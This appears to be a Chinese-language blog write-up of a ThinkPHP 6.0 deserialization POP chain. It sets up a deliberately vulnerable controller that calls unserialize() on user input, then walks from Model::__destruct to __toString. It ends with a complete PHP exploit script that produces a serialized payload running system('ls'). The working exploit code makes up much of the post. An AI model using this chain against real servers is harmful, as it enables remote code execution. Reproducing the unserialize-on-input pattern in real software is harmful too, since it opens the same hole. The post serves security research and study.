前言
继续补坑
环境搭建
1
2
3
4
5
|
composer create-project topthink/think=6.0.x-dev v6.0
cd /v6.0
php think run
|
/app/controller/index.php
1
2
3
4
5
6
7
8
9
10
11
| <?php
namespace app\controller;
class Index
{
public function index($input='')
{
echo $input;
unserialize($input);
}
}
|

__toString魔术方法触发情况
摘自p神知识星球

pop链分析
pop调用起点为Model类__destruct魔术方法,lazySave为类变量置为true，调用save方法

跟进save方法，接下来就是对这些方法瞎点点，看有没有合适的跳板。

这里直接跟进updateData方法,$this->exists可控置为true调用之.

跟进checkAlloFields方法,$table变量三元表达式调用了字符串拼接且参数可控，可以调用__toSring方法.但是先得经过$this->db()调用。

跟进db方法,可以发现这里也存在字符串拼接，$this->name 和 $this->suffix。就利用这里的方法调用__toString

首先得构造$this->db ，全局搜索包含buildQuery方法。定位到Db类，还需要构造传入的$this->connection参数不使得程序报错。

$this->connection需要满足
- 数组
$config['type']\think\db\connector0命名空间,全局搜索结果只有mysql符合


后面就开始进入字符串拼接，和thinkphp5.2相同就不在赘述
exp
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
| <?php
namespace think{
class Db{
}
}
namespace think\model\concern {
trait Conversion{
protected $visible;
}
trait RelationShip{
private $relation;
}
trait Attribute{
private $withAttr;
private $data;
}
}
namespace think{
abstract class Model{
use model\concern\Conversion;
use model\concern\Attribute;
private $lazySave;
private $exists;
protected $name;
protected $db;
protected $connection;
function __construct($data,$obj)
{
$this->lazySave=true;
$this->exists=true;
$this->data=$data;
$this->db=$obj;
$this->relation = [];
$this->visible= [];
$this->name=$this;
$this->withAttr = array("paper"=>'system');
$this->connection = ["type"=>"mysql"];
}
}
}
namespace think\model{
class Pivot extends \think\Model{
public function __construct($data,$obj)
{
parent::__construct($data,$obj);
}
}
}
namespace{
$db = new think\Db();
$pivot2 = new think\model\Pivot(['paper'=>'ls'],$db);
echo urlencode(serialize($pivot2));
}
|

pop链条
后半条和thinkphp 5.2相同不再赘述
